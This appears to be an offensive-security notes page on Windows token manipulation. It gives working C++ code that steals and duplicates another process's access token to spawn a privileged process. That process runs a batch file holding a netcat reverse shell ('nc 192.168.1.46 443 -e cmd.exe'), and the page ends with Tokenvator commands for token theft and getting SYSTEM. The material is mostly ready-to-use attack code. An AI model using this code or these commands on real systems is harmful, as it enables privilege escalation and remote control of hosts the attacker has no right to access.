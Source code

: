 # Token Manipulation

One of the techniques of token manipulation is creating a new process with a token "stolen" from another process. This is when a token of an already existing access token present in one of the running processes on the victim host, is retrieved, duplicated and then used for creating a new process, making the new process assume the privileges of that stolen token.

## Technique

* `OpenProcess` : Open a process with access token you want to steal
* `OpenProcesToken` : Get a handle to the access token of that process
* `DuplicateTokenEx` : Make a duplicate of the access token present in that process
* `CreateProcessWithTokenW` : Create a new process with the newly aquired access token

#### token-man.cpp

```cpp
#include "stdafx.h"
#include <windows.h>
#include <iostream>

int main(int argc, char * argv[]) {
    char a;
    HANDLE processHandle;
    HANDLE tokenHandle = NULL;
    HANDLE duplicateTokenHandle = NULL;
    STARTUPINFO startupInfo;
    PROCESS_INFORMATION processInformation;
    DWORD PID_TO_IMPERSONATE = 3360;
    wchar_t cmdline[] = L"E:\Privilege-Escalation\nooranet.cmd";
    ZeroMemory(&startupInfo, sizeof(STARTUPINFO));
    ZeroMemory(&processInformation, sizeof(PROCESS_INFORMATION));
    startupInfo.cb = sizeof(STARTUPINFO);    

    processHandle = OpenProcess(PROCESS_ALL_ACCESS, true, PID_TO_IMPERSONATE);
    OpenProcessToken(processHandle, TOKEN_ALL_ACCESS, &tokenHandle);
    DuplicateTokenEx(tokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &duplicateTokenHandle);            
    CreateProcessWithTokenW(duplicateTokenHandle, LOGON_WITH_PROFILE, NULL, cmdline, 0, NULL, NULL, &startupInfo, &processInformation);

    std::cin >> a;
    return 0;
}
```

#### nooranet.cmd

```cmd
nc 192.168.1.46 443 -e cmd.exe
```

### Token Abuses

#### Tokenvator

is a .NET tool for token manipulation that is primarily designed to alter privileges from a process. Using tokenvator tokens can be impersonated in the current process or a new process can be started with a primary token. 

* (Tokens) > info /all
* (Tokens) > whoami
* (Tokens) > list_privileges
* (Tokens) > get_system
* (Tokens) > list_privileges /impersonation
* (Tokens) > Steal_Token /process:1660 /command:cmd.exe
* (Tokens) > Enable_Privilege /Process:1660 /Privilege:SeDebugPrivilege
  * Tokenvator.exe getsystem /command:cmd.exe
